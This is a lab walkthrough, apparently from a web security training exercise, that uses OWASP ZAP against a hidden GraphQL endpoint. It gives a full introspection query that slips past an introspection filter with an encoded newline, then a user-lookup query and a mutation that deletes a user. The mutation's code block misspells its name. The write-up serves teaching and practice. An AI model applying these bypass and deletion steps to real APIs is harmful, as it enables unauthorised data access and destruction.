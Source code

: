 # Lab: Finding a hidden GraphQL endpoint [OWASP Zed Attack Proxy]

> NOTE: We already know, that `GET /api` is the GraphQL endpoint for this lab, so we continue from there.

Right-click `GET /` request from __History__ tab and select "Open in Requester Tab", modify the first line of the request to `GET /api?query=query{__typename}` and hit send. Response body should be:

```json
{
  "data": {
    "__typename": "query"
  }
}
```

Now replace `query=query{__typename}` in the request path with the following introspection query:

```
query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

Notice that there is a `%0a`, a URL-encoded newline character after `__schema` to avoid disallowed introspection policies. Click "Send". The server responds with full introspection details. 

> After trying to get the ZAP's GraphQL add-on to work with this to no avail, I figured queries can be manually discerned from the result from introspections and then specific queries built from the data provided. Unfortunately it requires good command of GraphQL so I learned some of it.
> By the end of this I wrote a [primer](primer/README.md) for red teamers on how to use results of introspection to build queries (basically, what to look for and in what order). 
> And after that I figured, I know Python and now GraphQL, why don't I write something that performs introspection, discerns queries from the result of it, then builds them and gives me options to use with either `GET` or `POST` methods. So I [did](https://github.com/gremlin-0x/gql_viper).
> But I will continue this particular document with manual building of queries. 

Notice, that there is a `getUser` query that takes in argument `id` of `type` `Int` and returns `id` and `username` parameters. So we can build the following GraphQL query:

```graphql
query {
  getUser (id: 3) {
    id
    username
  }
}
```

Copy it and go to __Tools__ > __Encode/Decode/Hash...__ and URL encode this query. Paste it after `/api?query=` in the `GET` request. Notice how it returns user `carlos` in the response:

```json
{
  "data": {
    "getUser": {
      "id": 3,
      "username": "carlos"
    }
  }
}
```

Observe in the results of introspection, there is a mutation named `deleteOrganizationUser` that takes in `input` _object_ as an argument and returns _object_ `user`. 

```graphql
mutation {
  deleteOrganizaitonUser (input: { id: 3 }) {
    user {
      id
      username
    }
  }
}
```

Notice, that it successfully deleted the user and solved the lab:

```json
{
  "data": {
    "deleteOrganizationUser": {
      "user": {
        "id": 3,
        "username": "carlos"
      }
    }
  }
}
```
